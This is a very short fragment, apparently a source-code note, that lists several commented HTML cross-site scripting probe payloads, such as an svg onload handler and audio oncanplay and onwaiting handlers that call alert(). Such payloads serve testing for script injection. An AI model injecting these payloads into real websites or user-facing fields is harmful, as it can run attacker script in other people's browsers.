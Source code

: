 #<h1><img src=x ><h1>
# <svg/onload=alert()>
# <audio oncanplay=alert(1)><source src="validaudio.wav" type="audio/wav"></audio>
# <audio controls onwaiting=alert(1)><source src=x type=x></audio>









